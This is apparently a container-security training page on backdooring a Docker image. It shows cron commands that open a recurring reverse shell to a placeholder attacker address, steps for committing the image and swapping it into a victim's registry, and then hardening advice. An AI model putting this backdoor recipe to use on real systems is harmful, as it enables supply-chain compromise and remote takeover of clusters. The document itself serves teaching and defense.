

# Backdoor Container
Fundamentally this is more of a container security issue, not specifically related to Kubernetes. If you're the images you're building applications into are compromised then your cluster can be compromised as well. This would be like if you downloaded an ubuntu ISO that contained malware before you even installed it. 

## Executing the attack 
Lets create a malicious image with a simple reverse shell backdoor to demonstrate how easy this is. When would we do this? Imagine we have identified that we can upload our own images to a company's container registry such as [harbor](https://github.com/goharbor/harbor). We're going to take advantage of that by uploading our own image, overwriting the "known good"  image that is currently being used. After doing some recon we've identified that the target is pulling a container image called "prod-app-1" to deploy their application into.

First, we must backdoor a container. To do so we're going to use the `ubuntu` image as our starting point. To download and launch the `ubuntu` docker image, run `docker run -it ubuntu`
> A quick note, you must be in the `docker` group to run docker without `sudo`.  To do so, run `sudo groupadd docker`, `sudo gpasswd -a $USER docker`, then run `newgrp docker`

Next, we're going to need to install cron into our container, add the backdoor, and then ensure cron is running.

```bash
# Update the repos and install cron 
apt update -y &> /dev/null && apt install -y cron &>/dev/null
apt update && apt install cron
# Create a backdoor using cron.
# Modified from this gist https://gist.github.com/hoefler02/2ca8166c167f147c8fb076b48eb7cb47
(touch .tab ; echo "* * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" >> .tab ; crontab .tab ; rm .tab) > /dev/null 2>&1
# Ensure cron is running
cron
```


Next we need to save our container as an "image".  This saves our backdoored *ubuntu* container as an image called *prod-app-1* that can be deployed without our malicious configuration.

```bash
# Stage the current container into an image
sudo docker commit <container_id> <image_name>

# Save the image as a .tar file for transport to target
sudo docker save <image_name> > <image_name>.tar

# If you want to load the image as a container
sudo docker image load < <image_name>.tar
```


Creating malicious images that are utilized as a "base" container is a [common attack vector](https://sysdig.com/blog/analysis-of-supply-chain-attacks-through-public-docker-images/).

## Defending against the attack
#### Defending 
Defending the container security layer is all about ensuring that the environment your application is running inside of is not able to be escaped should an attacker somehow find their way in through a vulnerability found in the code security layer such as command injection.

There are many different ways you can harden your container, however, it should be noted that conventional wisdom states that [containers should not be considered a strong security boundary](https://cloud.google.com/blog/products/gcp/exploring-container-security-an-overview). Even so, hardening your containers is a critical step in implementing defense in depth. Container security done right can greatly increase the time and effort an attacker needs to compromise a cluster.  Here are some high level recommendations for ensuring the container security layer is hardened

- **Pre-commit hooks**: Install and configure pre-commit hooks and code editor extensions to enforce best practices for developers creating containers. One example is using [trufflehog](https://github.com/trufflesecurity/trufflehog) to check for secrets before they're committed to code.
- **SAST Scanning**: Running security scanning tooling such as tooling such as [kics](https://www.kics.io/index.html#), [hadolint](https://github.com/hadolint/hadolint), [checkov](https://www.checkov.io/7.Scan%20Examples/Dockerfile.html), etc against Dockerfiles can help identify misconfigurations in the container images.
- **Container Registries**: Container registries act as a repository to store container images in after they've been built. Container registries allow you to build an inventory of approved base images that are approved in policy to use. One of the most common base images is [Alpine Linux](https://hub.docker.com/search?image_filter=official&q=), which is an ultra minimal Linux environment. Images can be validated using [conftest](https://www.conftest.dev/). A popular container registry to sign and store these images is [harbor](https://github.com/goharbor/harbor) as it is open source, and allows for scanning of images for vulnerabilities which brings us to the next recommendation. 
- **Image Scanning**: Scan container images for known vulnerabilities using tools such as [trivy](https://github.com/aquasecurity/trivy), [Clair](https://github.com/quay/clair?tab=readme-ov-file), or [Dagda](https://github.com/eliasgranderubio/dagda). This should tell you if an application or dependency in your container has a known CVE associated with it. It does not identify *new* vulnerabilities in your applications.
- **Container Signing**: Cryptographically signing containers with a tool such as [cosign](https://github.com/sigstore/cosign) will allow you to validate that the container image you're deploying is the same image you built and hasn't been infected with malware. (Unless the malware was introduced before you signed it...)
- **Secrets**: When building docker images, avoid hard-coding secrets into Dockerfiles and environment variables by using the `--secrets` and `--mount` flag. This will allow commands in the docker container to pass in secrets from a file and the secrets will not persist in the final container image.
- **Implement least privilege**: Containers should be minimized as much as possible to remove any unneeded software. It's not uncommon for hardened containers to only have a few binaries installed that make doing *anything* besides running the intended application a huge pain. This can be done by utilizing multistage builds that build software in the first image, then copy the freshly built binaries into a new container. Operating in this way means the final container image does not have the build tools inside the final container, further minimizing the image.
- **Monitoring**: Monitoring your containers for suspicious activity can be done by utilizing tools such as [Falco](https://github.com/falcosecurity/falco). While this can generate alerts, it's important that alerts are actionable and monitored. [This is a great overview of using Falco](https://www.blackhillsinfosec.com/real-time-threat-detection-for-kubernetes-with-atomic-red-tests-and-falco)
